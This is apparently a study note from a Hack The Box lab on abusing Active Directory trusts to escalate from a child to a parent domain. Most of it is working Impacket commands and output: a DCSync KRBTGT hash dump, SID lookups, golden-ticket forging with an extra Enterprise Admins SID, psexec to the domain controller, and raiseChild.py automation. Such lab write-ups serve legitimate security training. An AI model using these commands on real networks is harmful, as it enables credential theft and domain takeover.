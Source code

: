 ## **Overview**

When we fully compromise a **child domain**, we can **escalate privileges to the parent domain** by abusing **trust relationships**. This attack is **powerful** because child domains often have **fewer security restrictions**, making them **easier to compromise**.

**Goal:**  
Escalate from **LOGISTICS.INLANEFREIGHT.LOCAL** (child) → **INLANEFREIGHT.LOCAL** (parent).

**Tools Used:**
- `secretsdump.py`
- `lookupsid.py`
- `ticketer.py`
- `psexec.py`
- `raiseChild.py` (automated)
----

## 1 Gathering Required Information

Before executing the attack, we need to collect:

1. **KRBTGT NTLM hash** for the child domain.
2. **SID of the child domain**.
3. **A fake username** (e.g., `hacker`).
4. **FQDN of the child domain**.
5. **SID of the Enterprise Admins group in the root domain**.

## Dumping the KRBTGT Hash

Using **DCSync**, we extract the **KRBTGT hash** from the child domain.
```bash
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
**Example Output:**
```bash
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
```
**Why is this important?**  
The **KRBTGT hash** allows us to **forge** Kerberos tickets (Golden Ticket attack).

## Finding the Child Domain SID

To escalate to the parent domain, we need the **SID of the child domain**.
```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```
**Example Output:**
```bash
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
```
**SID of child domain:** `S-1-5-21-2806153819-209893948-922872689`

## Finding the Parent Domain’s Enterprise Admins SID

Next, we find the **Enterprise Admins** group SID of the **parent domain**.
```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```
**Example Output:**
```bash
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```
**Enterprise Admins SID:** `S-1-5-21-3842939050-3880317879-2865463114-519`

## Creating a Golden Ticket

Now, we **forge a Kerberos ticket** to gain **Enterprise Admin** access in the parent domain.
```bash
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
**Example Output:**
```bash
[*] Saving ticket in hacker.ccache
```
We now have a forged Kerberos ticket (`hacker.ccache`) with Enterprise Admin access!

---

## 2 Using the Ticket to Access the Parent Domain

We **load** the Kerberos ticket into our session.
```bash
export KRB5CCNAME=hacker.ccache
```

Next, we use **psexec.py** to log in as SYSTEM on the **parent domain controller**.
```bash
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```
We now have full SYSTEM access on the Parent Domain Controller!

---

## 3 Automating the Attack with raiseChild.py

The entire attack can be **automated** using `raiseChild.py`, which:

- Finds **Enterprise Admin SID**.
- Retrieves the **KRBTGT hash**.
- Creates a **Golden Ticket**.
- **Logs into the parent domain**.
- Retrieves **Enterprise Admin credentials**.
- **Executes PSEXEC for SYSTEM access**.
```bash
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```

**Why is this useful?**  
- Automates **SID lookup, KRBTGT hash extraction, ticket creation, and PSEXEC execution**.  
- **Saves time** but requires **careful usage** in real environments.

---

## Key Takeaways

 - **Domain Trusts Can Be Abused** → Weak configurations allow **escalation from a child to a parent domain**.  
 
 - **KRBTGT Hash is Key** → The KRBTGT hash allows **Golden Ticket attacks**.  
 
-  **Enterprise Admins SID is Critical** → This allows **privileged access to the parent domain**.  

- **Impacket Toolkit is Powerful** → `secretsdump.py`, `lookupsid.py`, and `ticketer.py` simplify the attack.  

 - **Avoid Auto-Pwn Scripts in Production** → **Always understand the manual process** before using automated tools.